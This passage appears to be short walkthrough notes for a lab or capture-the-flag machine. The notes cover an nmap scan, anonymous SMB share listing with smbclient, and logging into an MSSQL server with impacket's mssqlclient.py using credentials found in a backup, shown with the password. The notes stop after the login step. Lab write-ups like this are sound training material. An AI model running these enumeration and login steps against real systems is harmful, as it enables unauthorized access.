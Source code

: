 * Run an nmap 

* Figured a smb share is open for anonymous auth 

* Connect to the SMB with the command `smbclient -N -L //10.129.136.136/` and saw a backup repo with a MSSQL credentials

* use impacket python script to connect to the mssql database with the command : `python3 ~/impacket/examples/mssqlclient.py  sql_svc:M3g4c0rp123@10.129.136.136 -p 1433 -windows-auth` 

* see the help with the help command 